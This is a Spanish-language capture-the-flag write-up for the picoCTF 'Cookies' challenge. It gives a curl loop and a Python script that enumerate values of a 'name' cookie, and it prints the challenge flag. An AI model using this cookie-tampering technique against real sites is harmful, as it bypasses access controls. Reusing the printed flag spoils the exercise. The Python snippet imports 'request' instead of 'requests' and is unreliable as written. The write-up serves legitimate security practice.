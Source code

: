 ### Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
### Solución
Se inicia dando clic en el enlace proporcionado por la descripción del reto, al iniciarlo, tenemos lo siguiente:

![[Pasted image 20250325220833.png]]

Por lo que se prueba ingresando un nombre de alguna galleta como es el caso de "*hola*", lo cual no existe, al ingresarlo, nos arroja un mensaje de que **no es una galleta valida**, y si usamos la herramienta de Cookie-Editor instalada en un reto anterior, tenemos lo que nos muestra la siguiente imagen:

![[Pasted image 20250325221019.png]]

Se cambia el valor de la variable, se guarda y se actualiza, con lo cual ahora sí nos arroja una **galleta válida** como se aprecia en la siguiente imagen:

![[Pasted image 20250325221550.png]]

Pero el estar haciendo eso, con cada valor, sería muy cansado, por lo que se procede a usar la consola, en este caso se emplea la proporcionada por la página picoGym, donde se ingresa el siguiente comando: 

```
for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep picoCTF
```

Con este comando lograremos que se envíen varias solicitudes HTTP a un servidor web, el argumento **-H**, sirve para agregar un encabezado HTTP, por lo que ejecutado en la consola se aprecia algo así:

```shell
the_robx-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
```

Por fortuna, la bandera si estaba entre las primeras 21 opciones o posibilidades de valor, ya que si no hubiera sido así, se tendría que agrandar el rango del ciclo for, dicha bandera es:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```
### Notas Adicionales
Se puede hacer una mejor búsqueda con grep, haciendo lo siguiente:

```
the_robx-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep -oE "picoCTF{.*?}"
```

Usando un Script de python:

```python
import request
import re

url = "http://mercury.picoctf.net:54219/check"

for i in range(20):
		cookies = {'name' : '{}'.format(i)}
		print(cookies)
		r = requests.get(url, cookies=cookies)
		if 'picoCTF' in r.text:
			print(r.text)
			flag = re.findall('picoCTF{.*?}', r.text)[0]
			print(flag)
```
### Referencias